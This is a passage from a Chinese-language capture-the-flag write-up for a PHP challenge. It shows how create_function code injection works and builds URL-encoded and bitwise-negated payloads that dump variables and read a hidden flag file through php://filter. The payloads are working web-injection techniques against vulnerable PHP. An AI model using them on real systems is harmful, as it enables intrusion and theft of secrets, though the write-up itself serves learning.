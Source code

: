 相当于

```
function aaa($a, $b){
    return $a+$b;
}  
fction();//}（fction为某个任意函数，"//"可以注释掉后面的内容）
```

应用到本题,可以得到

```php
flag[code]=create_function&flag[arg]=}fction();//
```

6.3由于包含了flag.php这个文件，为了查看所以用到两个函数

**var_dump**：[PHP: var_dump - Manual](https://www.php.net/manual/zh/function.var-dump.php)

**get_defined_vars()**：[PHP get_defined_vars() 函数 | PHP 教程 - 码农教程](https://www.codercto.com/courses/d/863.html)

可以利用**`get_defined_vars()`**将所有变量和值都进行输出

所以构造payload：

```
flag[code]=create_function&flag[arg]=}var_dump(get_defined_vars());//
```

6.4字母和数字都被ban了，所以跟前面一样，用url编码一下

```
file=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0A&%73%68%61%6e%61[]=1&%70%61%73%73%77%64[]=2&%66%6c%61%67%5b%63%6f%64%65%5d=%63%72%65%61%74%65%5f%66%75%6e%63%74%69%6f%6e&%66%6c%61%67%5b%61%72%67%5d=}%76%61%72%5f%64%75%6d%70(%67%65%74%5f%64%65%66%69%6e%65%64%5f%76%61%72%73());//
```

6.5 提示了flag在rea1fl4g.php里，所以考虑用require函数，php//filter读取文件

![image-20240620214829404](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406202148506.png)

```
require(php://filter/read=convert.base64-encode/resource=rea1fl4g.php)
```

url编码之后

```
require(%8f%97%8f%c5%d0%d0%99%96%93%8b%9a%8d%d0%8d%9a%9e%9b%c2%9c%90%91%89%9a%8d%8b%d1%9d%9e%8c%9a%c9%cb%d2%9a%91%9c%90%9b%9a%d0%8d%9a%8c%90%8a%8d%9c%9a%c2%8d%9a%9e%ce%99%93%cb%98%d1%8f%97%8f)
```

利用异或或者~进行取反操作

```
require(~(%8f%97%8f%c5%d0%d0%99%96%93%8b%9a%8d%d0%8d%9a%9e%9b%c2%9c%90%91%89%9a%8d%8b%d1%9d%9e%8c%9a%c9%cb%d2%9a%91%9c%90%9b%9a%d0%8d%9a%8c%90%8a%8d%9c%9a%c2%8d%9a%9e%ce%99%93%cb%98%d1%8f%97%8f))
```

替换上一步中的**var_dump(get_defined_vars())**
